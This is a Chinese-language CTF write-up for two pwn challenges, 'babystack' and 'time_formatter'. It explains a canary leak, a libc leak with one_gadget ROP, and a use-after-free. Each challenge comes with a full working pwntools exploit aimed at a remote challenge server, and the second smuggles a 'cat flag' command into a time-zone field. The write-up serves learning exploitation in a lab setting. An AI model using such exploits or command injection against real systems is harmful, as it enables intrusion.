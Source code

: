# 序

本篇wp来自于永舟学长的压力，30题谁顶得住呀。

![afraid](..\..\..\..\pics\emojis\afraid.gif) 

## 0x1  pwn1 babystack

### 题目信息
![ad-babtstack-checksec](..\..\..\..\pics\wp\ad-babtstack-checksec.png)   
![ad-babtstack-idamain](..\..\..\..\pics\wp\ad-babtstack-idamain.png)  

### 思路
> 泄露canary  
> 泄露libc基址  
> 利用one_gadget  
  
### exp
~~~ python
from pwn import  * 
context.log_level = 'debug'

# r = process('./babystack')
r = remote("111.198.29.45", 41434)
e = ELF('./babystack')
libc = ELF('./libc-2.23.so')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
one_gadget = 0x45216
pop_rdi  = 0x400a93
main     = 0x400908

def store(pay1):
	r.recvuntil('>>')
	r.sendline('1')
	r.sendline(pay1)

def show():
	r.recvuntil('>>')
	r.sendline('2')

def quit():
	r.sendlineafter('>> ','3')

def interactive():
	r.sendline('cat flag')
	r.interactive()

payload = 'a' * 0x88
store(payload)
show()
r.recvuntil(payload)
canary = u64(r.recv(8)) - 0xa
success("canary:" + hex(canary))

payload = 'a' * 0x88 + p64(canary) + 'a' * 8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
store(payload)
r.recv()
quit()

put_addr = u64(r.recv(6).ljust(8,'\x00'))
libc_base = put_addr - libc.symbols['puts']
one_gadget_addr = libc_base + one_gadget

payload = 'a' * 0x88 + p64(canary) + 'a' * 8 + p64(one_gadget_addr)
store(payload)
quit()
interactive()
~~~

### 小知识  
canary是以'\x00'结尾的，本意为截断字符串。  
将'\x00'覆盖，利用输出函数将canary泄露。

## 0x2  time_formatter  
### 题目信息
![ad-timef-match](..\..\..\..\pics\wp\ad-timef-match.png)   
![ad-timef-malloc](..\..\..\..\pics\wp\ad-timef-malloc.png)  
![ad-timef-vul](..\..\..\..\pics\wp\ad-timef-vul.png)  

### 思路
这个题目主要是分析程序的逻辑漏洞  
发现了UAF漏洞,没有把free过后的指针设置成NULL。  
UAF的基本思路是：  
> （可能是由程序自己）申请一块内存 ptr   
> 使用free(ptr)  
> 申请与ptr大小相似的内存（为了得到 ptr ）  
> 修改 ptr 为自己想要的值
  
### exp
~~~ python  
from pwn import *
context.update(arch='amd64', log_level='debug')

# r = process('./time_formatter')
r = remote('111.198.29.45','47767')
e = ELF('./time_formatter')

def set_format(string):
    r.sendlineafter('>', '1')
    r.sendlineafter(':', string)
    r.recvuntil('set')

def set_zone(string):
    r.sendlineafter('>', '3')
    r.sendlineafter(':', string)
    r.recvuntil('set')

def print_time():
    r.sendlineafter('>', '4')

def Exit():
    r.sendlineafter('>', '5')
    r.sendlineafter('?', 'N')

set_format('laIchIck')
Exit()
set_zone('\';cat flag\'')
print_time()
r.interactive()
~~~

### 小知识  
strspn(str1,str2) :  C库函数，检索字符串 str1 中第一个不在字符串 str2 中出现的字符下标。  
strdup()在内部调用了malloc()为变量分配内存，不需要使用返回的字符串时，需要用free()释放相应的内存空间，否则会造成内存泄漏。  
这里的set_zone('\';cat flag\'')是“注入”（暂时不太懂，下次来补坑）
